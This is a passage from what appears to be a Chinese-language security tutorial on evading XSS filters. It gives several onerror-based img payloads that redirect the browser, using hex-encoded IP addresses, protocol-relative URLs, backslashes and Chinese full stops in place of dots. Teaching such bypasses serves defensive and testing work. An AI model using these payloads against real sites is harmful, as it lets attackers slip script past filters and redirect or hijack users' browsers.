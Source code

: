 ```
    <img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>

4.html 标签中用`//`可以代替`http://`

    <img src="x" onerror=document.location=`//www.baidu.com`>

5.使用`\\`

    但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议

Windows 下  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190208102122-3a40fff4-2b48-1.gif)  
Linux 下  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190208103630-5775e02e-2b4a-1.gif)  
6.使用中文逗号代替英文逗号  
如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号

    <img src="x" onerror="document.location=`http://www。baidu。com`">//会自动跳转到百度
